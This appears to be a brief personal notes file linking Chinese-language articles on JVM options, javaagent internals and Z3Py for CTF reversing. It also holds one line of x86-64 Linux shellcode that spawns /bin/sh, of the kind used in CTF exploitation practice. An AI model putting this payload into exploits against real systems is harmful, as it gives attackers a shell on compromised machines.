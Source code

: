 Java 6 JVM参数选项大全（中文版） http://www.blogjava.net/bitbit/archive/2009/11/30/304247.html
JVM源码分析之javaagent原理完全解读  http://www.infoq.com/cn/articles/javaagent-illustrated
  
  
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

Z3Py在CTF逆向中的运用(Z3是Microsoft Research开发的高性能定理证明器)
http://www.freebuf.com/articles/database/170814.html


